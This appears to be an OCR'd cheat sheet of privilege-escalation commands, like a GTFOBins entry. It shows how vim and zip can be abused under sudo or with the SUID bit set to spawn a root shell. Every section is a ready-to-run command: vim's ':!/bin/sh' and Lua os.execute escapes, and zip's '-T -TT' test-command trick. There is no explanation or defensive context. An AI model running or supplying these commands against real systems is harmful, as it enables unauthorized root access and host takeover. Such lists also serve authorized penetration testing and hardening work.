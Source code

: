 ```
```
# VIM
### SUDO
```
sudo vim -c ':!/bin/sh'
```
### SUID
```
sudo sh -c 'cp $(which vim) .; chmod +s ./vim'

./vim -c ':lua os.execute("reset; exec sh")'
```
# ZIP
### SUDO
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
### SUID
```
sudo sh -c 'cp $(which zip) .; chmod +s ./zip'

TF=$(mktemp -u)
./zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
